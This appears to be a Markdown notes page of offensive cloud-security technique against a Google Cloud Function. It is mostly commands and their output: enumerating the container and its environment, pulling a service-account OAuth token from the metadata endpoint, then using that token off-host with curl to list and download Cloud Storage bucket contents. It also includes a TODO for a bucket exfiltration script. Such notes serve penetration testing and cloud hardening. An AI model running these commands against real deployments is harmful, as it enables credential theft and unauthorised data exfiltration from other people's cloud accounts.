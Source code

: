# Google Cloud Platform

## Execution Environment

The container runs as root:

```
id
uid=0(root) gid=0(root) groups=0(root)

whoami
root
```

Exploring through the filesystem:

```
pwd
/srv/files

ls -al
total 165
drwxr-xr-x 2 root root      0 Dec 24 18:28 .
drwxr-xr-x 2 root root      0 Dec 24 18:28 ..
-rw-r--r-- 1 root root    252 Dec 24 18:28 Makefile
-rw-r--r-- 1 root root   1688 Dec 24 18:28 cheetah.go
-rw------- 1 root root     24 Dec 24 18:28 go.mod
drwxr-xr-x 2 root root      0 Dec 24 18:28 node_modules
-rw-r--r-- 1 root root 166598 Dec 24 18:28 package-lock.json
-rw-r--r-- 1 root root    907 Dec 24 18:28 package.json

ls -al /srv
total 6
drwxr-xr-x 2 root root    0 Dec 24 04:51 .
drwxr-xr-x 2 root root    0 Dec 24 04:51 ..
drwxr-xr-x 2 root root    0 Dec 24 04:51 files
-rw-r--r-- 1 root root  189 Dec 24 04:51 go.mod
-r-xr-xr-x 1 root root   11 Dec 24 04:51 serverless-build.yaml
drwxr-xr-x 2 root root    0 Dec 24 04:51 vendor
-r-xr-xr-x 1 root root 6267 Dec 24 04:51 worker.go
```

`/srv/vendor` appears to contain helper code from Google:

```
ls -al /srv/vendor
total 0
drwxr-xr-x 2 root root 0 Dec 24 04:51 .
drwxr-xr-x 2 root root 0 Dec 24 04:51 ..
drwxr-xr-x 2 root root 0 Dec 24 04:51 gcfeventhelper

ls -al /srv/vendor/gcfeventhelper
total 4
drwxr-xr-x 2 root root    0 Dec 24 04:51 .
drwxr-xr-x 2 root root    0 Dec 24 04:51 ..
-r-xr-xr-x 1 root root 3886 Dec 24 04:51 event.go
-r-xr-xr-x 1 root root   22 Dec 24 04:51 go.mod

cat /srv/vendor/gcfeventhelper/event.go
// Package gcfeventhelper exports a helper function GetMetadataAndDataFromBody that unmarshalls
// an event from supervisor (both legacy and current API) and returns GCF-specific
// metadata and event data.
...
```

```
env
X_GOOGLE_FUNCTION_TIMEOUT_SEC=60
X_GOOGLE_FUNCTION_MEMORY_MB=256
FUNCTION_TIMEOUT_SEC=60
FUNCTION_MEMORY_MB=256
X_GOOGLE_LOAD_ON_START=false
HOME=/root
X_GOOGLE_FUNCTION_TRIGGER_TYPE=HTTP_TRIGGER
PORT=8080
ENTRY_POINT=Cheetah
X_GOOGLE_SUPERVISOR_HOSTNAME=169.254.8.129
FUNCTION_TRIGGER_TYPE=HTTP_TRIGGER
X_GOOGLE_FUNCTION_NAME=Cheetah
X_GOOGLE_GCLOUD_PROJECT=brandonevans
FUNCTION_NAME=Cheetah
SUPERVISOR_INTERNAL_PORT=8081
X_GOOGLE_GCP_PROJECT=brandonevans
X_GOOGLE_FUNCTION_REGION=us-central1
X_GOOGLE_ENTRY_POINT=Cheetah
FUNCTION_REGION=us-central1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
X_GOOGLE_WORKER_PORT=8091
CODE_LOCATION=/srv
SUPERVISOR_HOSTNAME=169.254.8.129
WORKER_PORT=8091
DEBIAN_FRONTEND=noninteractive
X_GOOGLE_FUNCTION_IDENTITY=brandonevans@appspot.gserviceaccount.com
X_GOOGLE_CONTAINER_LOGGING_ENABLED=true
GCLOUD_PROJECT=brandonevans
FUNCTION_IDENTITY=brandonevans@appspot.gserviceaccount.com
X_GOOGLE_CODE_LOCATION=/srv
PWD=/srv/files/
GCP_PROJECT=brandonevans
X_GOOGLE_SUPERVISOR_INTERNAL_PORT=8081
X_GOOGLE_FUNCTION_VERSION=2
NODE_ENV=production
```

The supervisor service is could be a point of interest?

```
curl 169.254.8.129:8081
404 page not found
```

## Metadata Endpoint

[App Engine Metadata Service](
https://cloud.google.com/appengine/docs/standard/java/accessing-instance-metadata#making_metadata_requests)

Querying the service account for interesting bits of information:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email

<account-email>@developer.gserviceaccount.com

```

Querying for the default aliases:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/aliases

default
```

Querying for the default service accounts for the execution role:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/

aliases
email
identity
scopes
token
```

Querying the metadata service for the valid scopes:

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes


https://mail.google.com/
https://www.googleapis.com/auth/analytics
https://www.googleapis.com/auth/calendar
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/contacts
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/presentations
https://www.googleapis.com/auth/spreadsheets
https://www.googleapis.com/auth/streetviewpublish
https://www.googleapis.com/auth/urlshortener
https://www.googleapis.com/auth/userinfo.email
https://www.googleapis.com/auth/youtube

```

Querying the service account authentication token, which appears to be valid for 30 minutes.

```
curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
{"access_token":"ya29.c.ABC123","expires_in":1676,"token_type":"Bearer"}
```

## Token Pivoting

At the time of this writing, I have not found a way to load up the OAuth access token and use it from the `gcloud` command line interface. This overall makes it harder to run commands against the account, but can still be done directly against the API using a proxy tool, Burp, or by using the SDK from a script (Python, Java, .NET, etc.).

TODO: Write a bucket exhilaration script to do the following for us for all buckets and all items in the project.

Set the *access_token* and project environment variables locally using the values obtained from the function execution environment.

```bash
export GOOGLE_ACCESS_TOKEN=<INSERT ACCESS TOKEN>
export GOOGLE_PROJECT=<GOOGLE PROJECT>
```

List the buckets for the project and query the first bucket:

```bash
curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/storage/v1/b?project=$GOOGLE_PROJECT" | jq '.items[0].selfLink'
```

List the objects in the storage bucket

```bash
export GOOGLE_PROJECT_BUCKET=$(curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "https://storage.googleapis.com/storage/v1/b?project=$GOOGLE_PROJECT" | jq -r '.items[0].selfLink')
curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "$GOOGLE_PROJECT_BUCKET/o"
```

Download the object from the bucket:

```bash
export GOOGLE_BUCKET_ITEM=$(curl -s -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "$GOOGLE_PROJECT_BUCKET/o" | jq -r '.items[0].selfLink')
curl -H "Authorization: Bearer $GOOGLE_ACCESS_TOKEN" "$GOOGLE_BUCKET_ITEM?alt=media" --output ~/Downloads/img2.jpg
```
